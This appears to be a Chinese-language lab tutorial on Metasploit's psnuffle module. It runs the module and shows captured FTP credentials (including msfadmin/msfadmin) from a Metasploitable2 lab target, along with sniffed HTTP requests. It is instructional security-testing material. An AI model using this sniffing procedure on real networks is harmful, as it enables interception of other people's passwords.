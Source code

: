 # psnuffle

psnuffle和dsniff一样是一个网络嗅探工具，用于监听局域网内大多数协议（FTP, Telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, PPTP MS-CHAP, NFS, VRRP, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Meeting Maker, Citrix ICA, Symantec pcAnywhere, NAI Sniffer, Microsoft SMB, Oracle SQL*Net, Sybase and Microsoft SQL;），并获取相对应的密码。

使用msf中的psnuffle无需设置相关参数

```shell
msf5 auxiliary(sniffer/psnuffle) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(sniffer/psnuffle) > 
[*] Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
[*] Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
[*] Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
[*] Loaded protocol SMB from /usr/share/metasploit-framework/data/exploits/psnuffle/smb.rb...
[*] Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
[*] Sniffing traffic.....

```

启动模块后，当局域网内的用户使用ftp协议，snuffle会将用户账号和密码打印在后台。本台主机使用IP 192.168.80.200，metaspoilable2 IP 192.16.80.201，win 192.168.80.129

```
[*] Successful FTP Login: 192.168.80.129:49166-192.168.80.201:21 >> anonymous / User@
[*] HTTP GET: 192.168.80.129:49168-112.13.107.244:80 http://ocsp.dcocsp.cn/MFEwTzBNMEswSTAJBgUrDgMCGgUABBTHv1Dj%2BciPJEWH5JNtwL5Y07mRqwQUxBF%2BiECGwkG%2FZfMa4bRTQKOr7H0CEAfhONK02bo2E4EUVAFIy7I%3D
[*] HTTP GET: 192.168.80.129:49168-112.13.107.244:80 http://ocsp.dcocsp.cn/MFEwTzBNMEswSTAJBgUrDgMCGgUABBTHv1Dj%2BciPJEWH5JNtwL5Y07mRqwQUxBF%2BiECGwkG%2FZfMa4bRTQKOr7H0CEAeIUfSHtbWGwEA2chL%2FIw0%3D
[!] *** auxiliary/sniffer/psnuffle is still calling the deprecated report_auth_info method! This needs to be updated!
[!] *** For detailed information about LoginScanners and the Credentials objects see:
[!]      https://github.com/rapid7/metasploit-framework/wiki/Creating-Metasploit-Framework-LoginScanners
[!]      https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-HTTP-LoginScanner-Module
[!] *** For examples of modules converted to just report credentials without report_auth_info, see:
[!]      https://github.com/rapid7/metasploit-framework/pull/5376
[!]      https://github.com/rapid7/metasploit-framework/pull/5377
[*] Successful FTP Login: 192.168.80.129:49170-192.168.80.201:21 >> msfadmin / msfadmin
```

> 通过ctrl+c方式退出当前模块，snuffle不会退出
>
> 具体查看jobs
